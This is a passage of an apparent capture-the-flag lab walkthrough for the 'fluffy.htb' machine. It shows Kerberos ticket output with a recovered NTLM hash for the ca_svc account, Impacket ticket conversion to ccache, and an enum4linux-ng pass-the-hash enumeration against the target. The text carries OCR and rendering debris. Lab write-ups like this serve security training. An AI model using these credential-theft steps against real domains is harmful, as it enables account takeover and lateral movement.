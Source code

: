 ```sh
  KeyType                  :  rc4_hmac
  Base64(key)              :  zJC9gR+wYNB3G4+p0Qe50Q==
  ASREP (key)              :  5007B281FD2F4BD89B24C673503A5471

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : CA0F4F9E9EB8A092ADDF53BB03FC98C8

```sh
/opt/venv/bin # cat /currentdir/ca_svc\ ticket | base64 -d >> ca.kirbi
/opt/venv/bin # python ticket
ticketConverter.py  ticketer.py
/opt/venv/bin # python ticketConverter.py ca.kirbi /currentdir/ca.ccache
Impacket v0.13.0.dev0+20250109.91705.ac02e0e - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done

We need to have this result as a ccache specifically to conform with our other local tools. With this we can do the same attack AGAIN to get the NTLM hash for ca_svc and start using that against endpoints that aren't directly logging in.


```python
!enum4linux-ng -H CA0F4F9E9EB8A092ADDF53BB03FC98C8 -u ca_svc fluffy.htb
```

    [92mENUM4LINUX - next generation (v1.3.4)[0m
    
     ==========================
    |    Target Information    |
     ==========================
    [94m[*] Target ........... fluffy.htb[0m
    [94m[*] Username ......... 'ca_svc'[0m
    [94m[*] Random Username .. 'qtvsqbzz'[0m
    [94m[*] Password ......... ''[0m
    [94m[*] Timeout .......... 5 second(s)[0m
    
     ===================================
    |    Listener Scan on fluffy.htb    |
     ===================================
    [94m[*] Checking LDAP[0m
    [92m[+] LDAP is accessible on 389/tcp[0m
    [94m[*] Checking LDAPS[0m
    [92m[+] LDAPS is accessible on 636/tcp[0m
    [94m[*] Checking SMB[0m
    [92m[+] SMB is accessible on 445/tcp[0m
    [94m[*] Checking SMB over NetBIOS[0m
    [92m[+] SMB over NetBIOS is accessible on 139/tcp[0m
    